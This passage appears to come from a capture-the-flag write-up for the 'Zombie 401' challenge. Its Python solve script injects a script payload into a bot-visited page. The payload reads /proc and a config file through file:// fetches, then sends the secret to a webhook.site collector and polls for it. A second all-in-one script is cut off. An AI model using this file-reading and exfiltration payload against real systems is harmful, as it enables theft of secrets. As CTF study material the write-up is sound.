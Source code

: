 ```python
        f.write(bucket_id)

bucket_url = f"https://webhook.site/{bucket_id}"


# execute exploit
base_base = 'https://zombie-401-tlejfksioa-ul.a.run.app/'
visit_base = f'{base_base}/visit?url='
show_base = f'{base_base}/zombie?show='
payload = f"""
<script>
(async function() {{
    let url = "file:///proc/self/status";
    let response = await fetch(url);
    let content = await response.text();
    let pid = content.toString().split("\\n")[3].split("\\t")[1];

    url = "file:///proc/" + pid + "/environ";
    response = await fetch(url);
    content = await response.text();
    url = "file://" + content.split("\\u0000")[8].split("=")[1] + "/config.json"
    response = await fetch(url);
    content = await response.json();
    let flag = content["secret-flag"]

    await fetch("{bucket_url}?data=" + JSON.stringify(flag));
}})();
</script>
"""


target_url = visit_base + urllib.parse.quote_plus(show_base + urllib.parse.quote_plus(payload))
r = requests.get(target_url)
print(r.text)

# fetch result
time.sleep(.1)
r = requests.get(f"https://webhook.site/token/{bucket_id}/requests?sorting=newest")
data = json.loads(r.json()["data"][0]["query"]["data"])
print(data)
```

{% endraw %}

## Bonus: All in One - Zombie 101-401

Using the technique from Zombie 401 we can combine solving all 4 challenges in one script.

{% raw %}

```python
import requests
import os
import re
import urllib.parse
import json
import time

# setup bucket
token_path = ".webhook-site.token"
if os.path.exists(token_path):
    with open(token_path, "r") as f:
        bucket_id = f.read()
else:
```